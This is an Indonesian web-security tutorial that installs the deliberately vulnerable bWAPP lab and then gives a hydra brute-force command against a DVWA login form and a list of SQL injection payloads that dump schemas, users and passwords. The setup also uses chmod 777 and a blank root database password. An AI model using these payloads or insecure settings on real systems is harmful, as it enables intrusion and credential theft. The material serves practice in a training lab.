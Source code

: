 # Keamanan Web
> Disusun oleh Hardiyanto

### Daftar Isi
* [Burp Suite](https://gitlab.com/dwiHard/LinuxAdministration/-/master/webserver/KeamananWeb.md#burp-suite)
    * [Install bWapp](https://gitlab.com/dwiHard/LinuxAdministration/-/master/webserver/KeamananWeb.md#install-bwapp)
    * [BruteForce](https://gitlab.com/dwiHard/LinuxAdministration/-/master/webserver/KeamananWeb.md#bruteforce)
    * [SQL Injection](https://gitlab.com/dwiHard/LinuxAdministration/-/master/webserver/KeamananWeb.md#sql-injection)


## Burp Suite

### Install bWapp
1. Download file [di sini](https://sourceforge.net/projects/bwapp/files/bWAPP/)
2. Extrak file
3. pidahkan file di /var/www/html untuk pengguna linux dan untuk pengguna windows di pindah di htdocs
4. Selanjutnya ketikkan **sudo chmod 755 -R bWAPP_latest**
5. Arahkan path **/var/www/html/bWAPP_latest/bWAPP**
6. Untuk selanjutnya **sudo chmod 777 password/ images/ documents/ logs/**
7. Kemudian edit admin/setting.php sesuikan dengan laptop Anda
```
$db_server = "localhost"; 	// your database server (IP/name), here 'localhost'
$db_username = "root";		// your MySQL user, here 'root'
$db_password = "";		// your MySQL password, here 'blank'
```
8. Buka browser ketikan pada url ```http://localhost/bWAPP_latest/bWAPP/install.php```
9. Lalu klik pada Click here to install bWAPP.
10. Lalu ketik url ```http://localhost/bWAPP_latest/bWAPP/login.php```

### BruteForce
```
hydra 192.168.xx.x -l admin -P /home/hard/Documents/password.txt http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect. :H-Cookie: security=low; PHPSESSID=xxxxxxxxxxxxxxxxxxxxxx"
```

### SQL Injection
```
1' OR 1=1#
1' OR 1=1 union all select system_user(),user()#
1' OR 1=1 union select null,schema_name from information_schema.schemata#
1' OR 1=1  union select null,table_name from information_schema.tables#
1' OR 1=1 union select null,@@datadir #
1' OR 1=1 union select null,concat(first_name,0x0a,password) from users #
1' UNION SELECT database(),2-- -
1' UNION SELECT user,password from users#
```

